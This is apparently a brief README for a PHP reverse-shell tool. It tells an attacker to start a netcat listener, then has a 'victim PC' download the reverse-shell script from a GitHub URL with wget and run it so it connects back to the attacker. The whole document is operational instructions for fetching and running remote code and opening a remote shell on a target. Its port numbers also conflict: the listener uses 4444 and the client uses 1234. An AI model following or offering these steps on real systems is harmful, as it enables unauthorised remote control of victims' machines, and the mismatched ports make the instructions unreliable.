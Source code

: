 # php-reverse-shell

Attacker PC wait for terminal
```shell
nc -l 127.0.0.1 4444
```

Victim PC download smart reverse shell and connect to Attack PC
```shell
wget -O php-smart-reverse-shell.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/php-smart-reverse-shell.php
php ./php-smart-reverse-shell.php 127.0.0.1 1234
```

